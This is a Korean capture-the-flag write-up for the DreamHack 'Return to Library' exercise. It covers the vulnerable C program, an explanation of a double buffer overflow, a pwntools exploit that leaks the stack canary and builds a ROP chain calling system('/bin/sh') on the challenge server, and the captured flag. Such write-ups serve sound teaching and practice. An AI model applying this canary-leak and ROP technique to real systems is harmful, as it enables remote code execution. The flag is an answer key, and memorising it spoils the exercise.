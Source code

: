 # [DreamHack] Return to Library

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> Exploit Tech: Return to Library에서 실습하는 문제입니다.
>
> Release: [Return to Library.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8532842/Return.to.Library.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/159805827-1db6187b-ecf9-456f-a0f1-0a9ea9d2102c.png)

## Analysis

```c
const char* binsh = "/bin/sh";

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Add system function to plt's entry
  system("echo 'system@plt");

  // Leak canary
  printf("[1] Leak Canary\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Overwrite return address
  printf("[2] Overwrite return address\n");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```

`read(0, buf, 0x100)`로 두 차례 BOF가 발생한다. 첫 번째 BOF를 이용하여 canary를 leak할 수 있고, 그것을 이용하여 두 번째 BOF에서 `main()`의 `return address`를 덮을 수 있다. 바이너리에 `system()` 함수와 `"/bin/sh"` 문자열이 포함되어 있으므로, `pop rdi` 가젯을 찾아 `system("/bin/sh")`을 호출하도록 하면 셸을 획득할 수 있다.

## Exploit

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/rtl')
else:
    r = remote('host1.dreamhack.games', 13755)

sa = r.sendafter

binsh = 0x400874  # "/bin/sh"
system_plt = 0x4005d0  # PLT of system()
pop_rdi = 0x400853  # pop rdi; ret
ret = 0x400285  # ret gadget

# leak canary
sa('Buf: ', 'a' * 0x39)
r.recvuntil('Buf: ' + 'a' * 0x39)
canary = u64(r.recvn(7).rjust(8, b'\x00'))

# overwrite return address of main()
# call system("/bin/sh")
payload = b'a' * 0x38  # dummy
payload += p64(canary)  # canary
payload += b'a' * 8  # sfp
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system_plt)
sa('Buf: ', payload)

r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 13755: Done
[*] Switching to interactive mode
$ cat flag
DH{13e0d0ddf0c71c0ac4410687c11e6b00}
```
